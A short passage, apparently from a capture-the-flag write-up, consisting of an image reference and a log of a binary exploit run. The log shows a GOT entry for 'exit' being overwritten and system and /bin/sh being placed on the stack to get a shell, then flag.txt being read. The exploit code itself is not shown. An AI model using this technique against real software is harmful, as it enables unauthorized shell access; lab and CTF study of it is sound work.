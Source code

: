 ```bash
[*] updating exit got
[*] adding system to stack
[*] adding /bin/sh to stack
[*] "exit" loop to shell
[*] Switching to interactive mode

$ cat flag.txt
flag{kmh_<3333333333333334444}

real    0m34.954s
user    0m0.809s
sys     0m0.205s
```
